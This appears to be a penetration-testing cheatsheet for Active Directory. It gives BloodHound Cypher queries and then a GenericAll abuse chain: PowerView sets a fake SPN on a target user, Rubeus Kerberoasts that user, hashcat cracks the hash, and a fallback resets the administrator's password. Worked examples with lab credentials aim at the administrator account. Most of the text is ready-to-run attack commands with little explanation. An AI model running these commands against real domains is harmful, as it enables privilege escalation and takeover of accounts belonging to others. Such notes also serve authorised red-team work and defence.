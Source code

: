 [bloodhound-cypher-cheatsheet](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

```
# return nodes with direct relationships
MATCH c=(a)-[:CanPSRemote]->(b) RETURN c
# Find SPNs with keywords 
MATCH (u:User) WHERE ANY (x IN u.serviceprincipalnames WHERE toUpper(x) CONTAINS '<search string>') RETURN u
# retrieve computers
MATCH (c:Computer) [WHERE c.operatingsystem CONTAINS "<search string>"] RETURN c
# PowerShell command:Test-Connection -ComputerName <ComputerName> -Count 1 | Select-Object -ExpandProperty IPV4Address
```

- GenericAll

[![Windows](https://badgen.net/badge/icon/windows?icon=windows&label)](https://microsoft.com/windows/)

```powershell
Import-Module .\PowerView.ps1
<# valid credential #>
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain>\<username>', $SecPassword)
<# fake SPN #>
Set-DomainObject -Credential $Cred -Identity <specific user> -SET @{serviceprincipalname='<service class>/<host>'} -Verbose
<# Kerberoasting #>
.\Rubeus.exe kerberoast /user:<specific user> /nowrap
<# password recovery #>
.\hashcat.exe -a 0 -m 13100 .\hash .\rockyou.txt
```

steps example

```powershell
$User = 'VITAMIN\Ted';$Pass = ConvertTo-SecureString 'P@ssword789' -AsPlainText -Force;$Cred = New-Object System.Management.Automation.PSCredential($User, $Pass)

Set-DomainObject -Credential $Cred -Identity administrator -SET @{serviceprincipalname='ANYNAME/test000'}

.\Rubeus.exe kerberoast /user:administrator /nowrap /creduser:VITAMIN\Ted /credpassword:'P@ssword789' /spn:"ANYNAME/test000"
```

if we can't recovery password

```powershell
$User = 'VITAMIN\Ted';$Pass = ConvertTo-SecureString 'P@ssword789' -AsPlainText -Force;$Cred = New-Object System.Management.Automation.PSCredential($User, $Pass)
<# change target user's password #>
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Set-DomainUserPassword -Identity administrator -AccountPassword $UserPassword -Credential $Cred
```
